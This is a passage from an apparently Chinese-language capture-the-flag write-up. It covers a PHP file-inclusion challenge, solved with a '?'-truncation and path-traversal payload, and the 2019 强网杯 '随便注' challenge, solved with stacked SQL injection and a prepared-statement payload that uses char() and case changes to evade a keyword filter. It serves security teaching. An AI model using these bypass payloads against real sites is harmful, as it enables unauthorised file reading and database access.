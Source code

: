 ```php
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\"/>";
    }
?>
```

发现存在 `hint.php`：

```
flag not here, and flag in ffffllllaaaagggg
```

结合上述代码，可以确定是利用文件包含读取 `ffffllllaaaagggg` 文件。为此，我们需要提供 GET 参数 `file`。

注意到 `file` 参数的值会被经过如下处理：

```php
$_page = mb_substr(
                $page,
                0,
                mb_strpos($page .'?','?')
            );
```

那么如果我们在中间插入一个 `?`，就可以达到截断的效果。所以尝试 `?file=hint.php?ffffllllaaaagggg` 发现无法读取到内容，因此猜测 `hint.php?` 被当作了文件名的一部分，需要使用相对路径进行目录穿越：

```
?file=hint.php?../../../../../ffffllllaaaagggg
```

## [强网杯 2019] 随便注

单引号可以发现存在注入，但尝试注入时页面返回

```php
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

这说明无法通过常规手段进行注入，因此尝试堆叠注入：

```
1';show databases;
1';show tables;
```

得到需要的表名 `1919810931114514`，但是由于 `select` 等查询关键字被过滤，查字段内容需要另辟蹊径。这里使用了预处理语句：

```
1';sEt @poc=concat(char(115,101,108,101,99,116,32),'* from `1919810931114514`');prEpare poc from @poc;exEcute poc;#
```

注意这里可以使用 `char` 绕过、大小写绕过，并且纯数字表名需要用反引号包起来。
